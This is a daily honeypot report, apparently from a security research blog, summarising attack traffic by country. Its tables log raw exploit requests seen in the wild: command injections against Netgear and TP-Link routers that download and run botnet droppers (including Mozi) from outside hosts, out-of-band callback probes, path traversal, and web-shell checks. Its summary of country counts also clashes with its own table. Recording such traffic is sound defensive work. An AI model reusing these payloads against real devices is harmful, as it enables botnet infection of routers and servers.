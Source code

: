 ```yaml
---
title: "Report: 2025-05-26 "
date: 2025-05-26
desciption: "Report: 2025-05-26" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-26 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 6 dropper URL(s).  

There are 12 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1562 requests were recorded during the day, originating from 6 different countries, with a peak of 490 requests coming from SA.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                             |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 125.44.27.216  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                           |
| 142.154.59.187 | GET /backupmgt/localJob.php?session=fail;wget+http://d0q39sn0prvpilv9a4p06176by7bhgr61.oast.online; HTTP/1.1                                                                                        |
| 142.154.59.187 | GET /backupmgt/pre_connect_check.php?auth_name=fail;wget+http://d0q39sn0prvpilv9a4p0fo36b893dri41.oast.online; HTTP/1.1                                                                             |
| 142.154.59.187 | GET /backupmgt/localJob.php?session=fail;wget+http://d0q39sn0prvpilv9a4p0pagjn1u3nbogj.oast.online; HTTP/1.1                                                                                        |
| 142.154.59.187 | GET /backupmgt/pre_connect_check.php?auth_name=fail;wget+http://d0q39sn0prvpilv9a4p0wdosafrs94798.oast.online; HTTP/1.1                                                                             |
| 141.98.11.137  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F212.81.47.226%2Fr%3B+chmod+777+r%3B+.%2Fr+tplink%3B+rm+-rf+r%60) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                          |
|----:|----------------------:|:-----------------------------------------------------------------------------------------------------------------|
|  35 |                     4 | GET /talari/app/files/2xcyvqOz67kkLSz9qERHbfNJIem HTTP/1.1                                                       |
|  51 |                     4 | GET /Uploads/2xcyvrxOpkunWkRc21dL1UWelVp.php7 HTTP/1.1                                                           |
| 109 |                     4 | GET /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/2xcyvuFVtfIgkUFngKGg3z70j5x.jsp HTTP/1.1 |
| 130 |                     4 | GET /__debugging_center_utils___.php?log=;echo%20gsoydnodmclnfunmfqnuvfekqpcgexmg%20|%20ipconfig HTTP/1.1        |
| 131 |                     4 | GET /__debugging_center_utils___.php?log=;echo%20gsoydnodmclnfunmfqnuvfekqpcgexmg%20|%20id HTTP/1.1              |
| 149 |                     4 | GET /fileserver/2xcyvpL0XioN3S0XnbWtHiFmeIq.txt HTTP/1.1                                                         |
| 244 |                     2 | GET /webadmin/script?command=|%20nslookup%20d0q39sn0prvpilv9a4p0m4motu55paffa.oast.online HTTP/1.1               |
| 247 |                     2 | GET /2xcyvtr109oWWIfFvZu5eeqfTis/../../ThinVnc.ini HTTP/1.1                                                      |
| 252 |                     2 | PUT /fileserver/2xcyvpL0XioN3S0XnbWtHiFmeIq.txt HTTP/1.1                                                         |
| 256 |                     2 | GET /webadmin/script?command=|%20nslookup%20d0q39sn0prvpilv9a4p01x9ke1zn6tnjw.oast.online HTTP/1.1               |
| 332 |                     1 | GET /iFYT HTTP/1.1                                                                                               |
| 333 |                     1 | GET /iHHd HTTP/1.1                                                                                               |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   490 | SA                 |
|  1 |                   232 | BG                 |
|  2 |                   190 | US                 |
|  3 |                   101 | DE                 |
|  4 |                    98 | JP                 |
|  5 |                    64 | PL                 |
|  6 |                    60 | NL                 |
|  7 |                    52 | CN                 |
|  8 |                    50 | VN                 |
|  9 |                    36 | GB                 |
| 10 |                    26 | HK                 |
| 11 |                    19 | LT                 |
| 12 |                    15 | SG                 |
| 13 |                    13 | AZ                 |
| 14 |                    12 | SC                 |
| 15 |                    11 | AU                 |
| 16 |                    10 | FR                 |
| 17 |                     9 | GH                 |
| 18 |                     8 | BR                 |
| 19 |                     8 | KR                 |
| 20 |                     7 | RO                 |
| 21 |                     7 | CA                 |
| 22 |                     6 | RU                 |
| 23 |                     5 | AO                 |
| 24 |                     4 | IL                 |
| 25 |                     4 | CH                 |
| 26 |                     3 | SE                 |
| 27 |                     3 | IN                 |
| 28 |                     2 | MD                 |
| 29 |                     2 | IE                 |
| 30 |                     2 | IT                 |
| 31 |                     2 | TW                 |
| 32 |                     2 | CL                 |
| 33 |                     2 | IR                 |
| 34 |                     2 | BE                 |
| 35 |                     1 | AR                 |
| 36 |                     1 | ES                 |
| 37 |                     1 | MC                 |
| 38 |                     1 | JO                 |
| 39 |                     1 | KZ                 |
